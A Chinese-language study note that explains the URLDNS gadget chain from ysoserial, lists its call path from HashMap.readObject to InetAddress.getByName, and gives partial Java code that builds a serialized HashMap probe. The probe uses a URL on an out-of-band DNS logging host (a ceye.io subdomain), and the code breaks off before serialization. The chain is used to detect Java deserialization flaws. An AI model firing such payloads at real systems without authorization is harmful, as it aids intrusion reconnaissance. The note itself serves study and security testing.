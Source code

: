 [TOC]

# URLDNS

URLDNS 是`ysoserial`中⼀个利用链的名字，但准确来说，这个其实不能称作“利用链”。因为其参数不是⼀个可以“利用”的命令，而仅为⼀个URL，其能触发的结果也不是命令执行，而是⼀次DNS请求。

虽然这个“利用链”实际上是不能“利用”的，但它有如下优点：

- 使用Java内置的类构造
- 对第三方库没有依赖在⽬标没有回显的时候
- 能够通过DNS请求得知是否存在反序列化漏洞。

------

#### 利用链

1. `HashMap` -> `readObject()`
2. `HashMap` -> `hash()`
3. `URL` -> `hashCode()`
4. `URLStreamHandler` -> `hashCode()`
5. `URLStreamHandler` -> `getHostAddress()`
6. `InetAddress` -> `getByName()`

```java
import java.io.*;
import java.lang.reflect.Field;
import java.net.InetAddress;
import java.net.URL;
import java.net.URLConnection;
import java.net.URLStreamHandler;
import java.util.HashMap;

public class URLDNS {

    static class SilentURLStreamHandler extends URLStreamHandler {

        protected URLConnection openConnection(URL u) throws IOException {
            return null;
        }

        protected synchronized InetAddress getHostAddress(URL u) {
            return null;
        }
    }

    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static void main(String []args) throws Exception {
        String url = "http://h1x3lu.ceye.io";

        //Avoid DNS resolution during payload creation
        //Since the field <code>java.net.URL.handler</code> is transient, it will not be part of the serialized payload.
        URLStreamHandler handler = new SilentURLStreamHandler();

        HashMap ht = new HashMap(); // HashMap that will contain the URL
        URL u = new URL(null, url, handler); // URL to use as the Key
        ht.put(u, url); //The value can be anything that is Serializable, URL as the key is what triggers the DNS lookup.

```